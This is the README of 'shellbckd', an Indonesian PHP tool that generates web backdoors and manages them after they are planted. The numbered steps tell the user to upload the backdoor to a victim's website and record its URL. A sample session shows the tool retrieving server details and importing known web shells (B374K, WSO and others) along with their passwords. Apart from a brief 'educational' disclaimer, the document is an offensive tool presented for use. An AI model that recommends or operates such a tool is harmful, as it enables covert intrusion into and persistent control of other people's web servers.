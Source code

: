# shellbckd
#### Versi 1.0
----
shellbckd adalah alat manajemen Backdor Sederhana berbasis PHP. Alat ini berguna bagi "PERETAS" yang ingin melacak setiap situs web yang mereka retas. Alat ini menghasilkan file Backdor yang hanya perlu Anda unggah ke situs dan meletakkan URL Backdor di shells.txt yang ada di direktori alat.

# Dengan shellbckd Anda bisa

- Impor Shell PHP
- Dapatkan Detail Server
- Unggah File Dari Sistem Anda menggunakan terminal Anda
- Dan yang terpenting, Anda Dapat Mengelola Backdor Anda dengan Efisien

# Cara Penggunaan

1. `git clone https://github.com/Yoga913/shellbckd`
2. `cd shellbckd`
3. `php shellbckd.php`
4. `generatebd` dan keluar dari alat gunakan <kbd>CTRL</kbd> + <kbd>C</kbd> - Ini akan menghasilkan file Backdor di direktori yang sama dengan alat dalam file bernama **backdoor. php**
5. Upload File Backdoor Ke Website Korban
6. Salin URL Backdor dan tempel di file **shells.txt** yang ada di direktori alat dan simpan (*Setiap Backdor dipisahkan oleh baris baru*)
7. `php shellbckd.php`
8. Masukkan **Nomor Seri** yang Ditugaskan ke Backdor
9. Istirahat cukup jelas

# Persyaratan
```
php
curl
```
# Contoh
```
root@kalilinux:/home/kalilinux/Desktop/shellbckd# php shellbckd.php

   #####################################################################             
###                                                                     ##-           
##   ##################################+##############################   ##           
##   ##                     ############ #############              ##  .#+           
##   ##                  ######          #    **     #              ##  .#+           
##   ##                #####  ##         #   *   *   #              ##  .#+           
##   ##                #   ## ##         #  *  !  *  #              ##  .##           
##   ##                ##### ##########  # *#****#+ ##              ##  .#+           
##   ##                   ###  #       # #           #              ##  .#+           
##   ##                    ##  #   ###   #           #              ##  .#+           
##   ##          #########-    #   #  #  #           #              ##  .#+           
##               ##############    #  # ##           #              ##  .#+           
##   ##                    ##-+#####  ##  ##         #              ##  .#+           
##   ##               #####        #    ##           #              ##  .#+           
##   ##           ####  ########   ###   #           #              ##  .#+           
##   ##           ##  ##   ##   ##.   ####           #              ##  .#+           
##   ##           ##  #    ##     ###    #           #              ##  .#+           
##   ##            #  #    ##            #           #              ##  .#+           
##   ##          #######   ############# #############              ##  .#+           
##   ##                                                             ##  .#+           
##   #################################################################  .#+           
##                                                                       ##           
##                                                             ##   ##  +##           
 ####+.......................                  ..............     .   ###            
     #########################################-#######################                
                        ##..-----------.   ##                                        
                       ##               .+ +##                                        
                     ###                     ###                                      
         ###################################################                          

 Sistem Manajemen Backdor Sederhana
 Dibuat oleh: yoga913
Catatan:$bold Saya Memebuat nya untuk kegiatan pendidikan penelitian selebihnya tidak bertanggung jawa.
==========================================================================================



Daftar Backdor:

0.http://localhost/backdoor.php
===============

[#] Masukkan salah satu dari ini (Nomor Backdor|bantuan|hasilkanbd): 0

[+] Shell Dipilih: http://localhost/backdoor.php
[+] Memvalidasi Backdor: Backdor Ditemukan!

Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):2

[+] Info Server
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[i] Server: Linux Kalilinux 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (06-06-2017) x86_64
[i] IP Server: 127.0.0.1


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):1


Daftar Kerang
===============
[1] busur shell {Pengguna & Pass: shellbckd123}
[2] B374K shell {Lulus : shellbckd123}
[3] Kurama shell V.1.0 {Lulus : merah}
[4] WSO shell {Lulus : shellbckd123}
[5] MiNi shell {Pengguna & Pass: shellbckd123}

[#] Pilih Shell Untuk Diimpor(1-5):1


[i] Mengimpor Shell...
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[R] Dhanush Shell Berhasil Diimpor Ke /var/www/html/busur.php


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):5
root@Kalilinux:/home/kalilinux/Desktop/shellbckd#

```
